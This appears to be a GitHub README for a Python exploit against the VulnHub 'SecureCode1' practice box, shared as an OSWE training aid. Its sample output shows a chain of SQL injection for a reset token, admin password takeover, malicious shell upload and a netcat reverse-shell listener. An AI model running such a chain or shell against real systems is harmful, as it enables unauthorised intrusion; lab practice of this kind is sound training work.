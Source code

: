 # SecureCode1 Exploit

Python exploit for the VulnHub OSWE practice box 'SecureCode1'

The box was fairly easy to exploit if you know your way around PHP code. I have uploaded the exploit for anybody that gets stuck. :-)

## The Codez

[exploit.py](https://github.com/plackyhacker/SecureCode1/blob/main/exploit.py)

## Execution

```
python3 ./exploit.py 192.168.1.167 Password123
[+] Don't forget to start your netcat listener: nc -nvlp 4444
[+] Requesting password reset token...
[+] Using SQLi to get the password reset token...
[+] Found password reset token: QXAmvO3pCJlJDTa
[+] Changing the admin password to Password123
[+] Logging in to the web app...
[+] Checking access...
[+] Permitted, will continue...
[+] Uploading malicious shell...
[+] Executing malicious shell...
```
